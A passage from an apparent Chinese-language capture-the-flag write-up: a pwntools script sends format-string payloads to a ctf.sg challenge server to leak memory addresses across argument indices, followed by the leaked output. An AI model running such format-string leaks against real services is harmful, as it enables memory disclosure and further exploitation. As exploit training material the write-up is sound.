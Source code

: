 这说明我们控制的缓冲区在堆里或者其他可写的内存中。为了寻找线索，编写脚本获取更多的输出：

```
#!/usr/bin/python

from pwn import *

context.update(arch = 'amd64', os = 'linux')


def run_leak(p, payload):
    prefix = b"XXXX"
    total = prefix + payload
    p.sendline(total)
    p.recvuntil(prefix)
    data = p.recv()
    return data


def leak_str(p, index):
    payload = ('AAAA' + '%' + str(index) + '$s %' + str(index) + '$p' + 'CCCC').encode('utf-8')
    r = run_leak(p, payload)
    string = r[4:-4]
    return string

def main():
    for i in range(100):
        p = remote('fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg', 42000)
        try:
            leaked_string = leak_str(p, i)
            first_part = leaked_string.split(b' 0x')[0][:8].ljust(8, b'\x00')
            address_maybe = u64(first_part)
            status = b"%s 0x%x %d" % (leaked_string, address_maybe, i)
            print(status)
        except:
            pass
        else:
            p.close()

if __name__ == '__main__':
    main()
```

得到一堆输出：

```
b'%0$s %0$p 0x2430252073243025 0'
b'\n 0x7fb9d66f6a03 0xa 1'
b'(null) (nil) 0x2820296c6c756e28 2'
b'\x8b \xad\xfb 0x7fe571c13980 0xfbad208b 3'
b'XXXXAAAA%4$s %4$pCCCC 0x5633c36260a0 0x4141414158585858 4'
b'(null) (nil) 0x2820296c6c756e28 5'
b'\x01 0x7ffe5903f370 0x1 6'
b'\xf3\x0f\x1e\xfaAWL\x8d=\xa3* 0x56177ef4f2e0 0x8d4c5741fa1e0ff3 7'
b'(null) (nil) 0x2820296c6c756e28 8'
b'\x89\xc7\xe8\x06+\x02 0x7f11930d60b3 0x22b06e8c789 9'
b' 0x7f896fe78620 0x0 10'
b'\\\xefc\xbc\xfd\x7f 0x7ffdbc63d238 0x7ffdbc63ef5c 11'
b'\xf3\x0f\x1e\xfaU1\xf6H\x8d-\x92/ 0x5648c11c5100 0x48f63155fa1e0ff3 13'
b'\xf3\x0f\x1e\xfaAWL\x8d=\xa3* 0x55d52ec162e0 0x8d4c5741fa1e0ff3 14'
b'\xf3\x0f\x1e\xfa1\xedI\x89\xd1^H\x89\xe2H\x83\xe4\xf0PTL\x8d\x05F\x01 0x55b5aed8e1f0 0x8949ed31fa1e0ff3 16'
b'\x01 0x7ffd3f6b8330 0x1 17'
b'(null) (nil) 0x2820296c6c756e28 18'
b'(null) (nil) 0x2820296c6c756e28 19'
```